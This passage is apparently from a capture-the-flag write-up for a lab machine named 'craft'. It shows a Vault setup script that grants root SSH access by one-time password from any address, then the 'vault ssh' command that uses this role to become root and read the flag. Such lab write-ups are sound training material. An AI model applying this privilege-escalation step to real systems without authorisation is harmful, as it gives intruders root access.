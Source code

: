 In the `craf-infra` repository there is a `vault` folder containing a
`secret.sh` file. This file show wich secrets are created: An ssh acces for the
root user.

    :::text
    craft-infra/vault# cat secrets.sh
    #!/bin/bash

    # set up vault secrets backend

    vault secrets enable ssh

    vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0

Therefore we just need to use the `vault`'s `ssh` command to connect as `root`
on `localhost` with the `otp` mode. We are root on the machine and can access
the flag.

    :::text
    gilfoyle@craft:~$ vault ssh -mode=otp root@127.0.0.1
    WARNING: No -role specified. Use -role to tell Vault which ssh role to use for
    authentication. In the future, you will need to tell Vault which role to use.
    For now, Vault will attempt to guess based on the API response. This will be
    removed in the Vault 1.1.
    Vault SSH: Role: "root_otp"
    Vault could not locate "sshpass". The OTP code for the session is displayed
    below. Enter this code in the SSH password prompt. If you install sshpass,
    Vault can automatically perform this step for you.
    OTP for the session is: fb100502-b40c-9f60-aa35-f90a5000a2a3


      .   *   ..  . *  *
    *  * @()Ooc()*   o  .
        (Q@*0CG*O()  ___
      |\_________/|/ _ \
      |  |  |  |  | / | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | \_| |
      |  |  |  |  |\___/
      |\_|__|__|_/|
        \_________/
